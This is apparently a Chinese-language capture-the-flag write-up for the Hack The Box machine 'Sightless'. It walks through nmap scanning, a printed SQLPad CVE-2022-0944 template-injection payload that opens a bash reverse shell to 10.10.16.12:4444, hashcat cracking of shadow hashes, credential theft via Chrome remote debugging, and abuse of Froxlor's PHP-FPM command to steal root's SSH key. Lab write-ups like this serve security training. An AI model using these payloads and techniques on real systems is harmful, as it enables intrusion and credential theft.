

Enumeration¶
Add hosts¶
尝试访问10.10.11.32，发现解析后域名.

编辑/etc/hosts文件,确保系统能够将域名 sightless.htb 解析为正确的 IP 地址 10.10.11.32
Nmap¶
┌──(root㉿kali)-[/home/tom]
└─# nmap --min-rate 10000 -p- -Pn 10.10.11.32
...
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
...
查看结果，发现打开了 3 个端口。
Web - 80¶

尝试寻找其他业务接口。

单击“现在开始”，重定向到http://sqlpad.sightless.htb/，将其添加到我们的 /etc/hosts 并访问它
Search vulnerabilities¶
我们要做的第一件事是查找 SQLPad 的版本以查找已知漏洞。单击右上角的 3 个点，然后单击 About（关于），我们会立即获得版本。
CVE-2022-0944¶
本地进行监听：
SQLPAD上执行如下操作:单击 Connections 和 Add Connection.
{{ process.mainModule.require('child_process').exec('(/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.12/4444 0>&1" &)') }}
成功得到shell.

Docker Environment¶
根目录下执行ls -liah后，发现存在.dockerenv，证明是docker环境.
所以下面我们要想办法逃离docker环境.

我们现在有了 michael 和 root 的哈希值，我们可以使用 hashcat 来破解它们。
Hashcat¶
#hashcat '$6$YiFC5EHwcE/nqUgi$aG3i.wyHFMyabCBcYrYwGwMRIvZOOtSPO1WhpeGv7M.MWk6oHZDgCpcfVWCY.6p7YMGZTZazKs2xTdTgg0K5i1' /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
1800 | sha512crypt $6$, SHA512 (Unix) | Operating System
NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.
$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:blindside
root
blindside
#hashcat '$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/' /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
1800 | sha512crypt $6$, SHA512 (Unix) | Operating System
NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
root
blindside
michael
insaneclownposse
使用破解后的密码连接到 michael 帐户并逃离 docker 容器。
┌──(root㉿kali)-[/home/tom]
└─# ssh michael@sightless.htb
The authenticity of host 'sightless.htb (10.10.11.32)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sightless.htb' (ED25519) to the list of known hosts.
michael@sightless.htb's password:
Last login: Wed Sep 25 03:10:58 2024 from 10.10.14.192
michael@sightless:~$
我们可以从那里得到第一个flag.
root¶
通过 sudo 权限、SUID、cron没有找到任何有用的东西.
查看开放的端口：
比较引入注意的是8080端口，将8080端口映射到本地。发现是froxlor系统，froxlor是一款web控制面板。
网上查询相关漏洞没有能绕过登录的，测试穷举登录，sql注入、默认用户名密码等都无法绕过。
ssh: 启动 SSH 客户端。
-L 8080:127.0.0.1:8080: 指定本地端口转发，将本地的 8080 端口转发到远程主机 sightless.htb 的 127.0.0.1（即远程主机本身）的 8080 端口。
michael@sightless.htb: 以用户名 michael 连接到远程主机 sightless.htb。
-N: 不执行远程命令，仅进行端口转发。
-f: 在后台运行 SSH 会话。
这个命令将你的本地 8080 端口与远程主机的 8080 端口建立了安全的连接，以便可以通过访问 http://localhost:8080 来访问远程服务。
看一下 http://127.0.0.1:8080/ 我们得到了一个 Froxlor 登录页面。

再查看进程，发现john用户启用了很多chrome程序，进一步查看命令，发现是chrome的调试模式。

经过搜索，发现chrome可以进行远程调试，这一步需要将多个端口映射本地。我这里映射了421411、36943、8080端口。根据情况不同，可以多映射几个。
下面在kali中打开chrome，访问chrome://inspect/#devices，在Configure里面设置127.0.0.1:port
在该界面等一会，你会发现下面会不断访问http://admin.sightless.htb:8080

点击inspect，会弹出DevTools（这一步要多试几次）
点击保留日志，让它访问几次，过一会我们就能找到Froxlor的用户名密码。
这里是因为本地在进行调试或者测试，不断循环访问网站，而我们使用远程调试则可以看到访问网站的过程。

访问http://127.0.0.1:8080，使用刚才获取的用户名密码登录，成功进入后台。
我们将root的私钥拷贝到tmp文件夹，进入PHP-FPM versions，修改第一行的php-fpm restart command。
我们为什么不直接反弹shell？因为命令行在保存时会校验，具体检验内容没有测试，但是仿造原命令的三段式可以通过校验。
将PHP-FPM功能打开，进入System下的Settings，将PHP-FPM里面Enable php-fpm打开。
等会发现id_rsa文件被拷贝到tmp，但是我们没有读写权限，再用上面的方法。
修改PHP-FPM versions第一行的php-fpm restart command，过会发现有了读写权限。

将该文件复制到本地，然后设置权限，使用ssh连接,成功获取root权限。